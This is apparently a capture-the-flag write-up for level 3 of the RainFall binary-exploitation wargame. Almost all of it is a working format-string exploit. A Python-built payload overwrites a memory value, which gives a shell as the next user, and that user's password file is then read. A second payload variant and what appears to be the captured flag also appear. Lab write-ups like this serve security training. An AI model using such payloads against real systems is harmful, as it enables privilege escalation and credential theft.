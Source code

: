 # Level 3

```bash
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "%x%x%49u%n"' > /var/crash/read
level3@RainFall:~$ cat /var/crash/read | ./level3 
�200b7fd1ac0                                       3086956496
Wait what?!
level3@RainFall:~$ cat /var/crash/read - | ./level3 
�200b7fd1ac0                                       3086956496
Wait what?!
whoami
level4
cat /home/user/level4/.pass
```

## Aurel

```bash
python2 -c 'print "\x8c\x98\x04\x08" + "%x "*3 + "a"*38 + "%n"' > /var/crash/write
```

b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
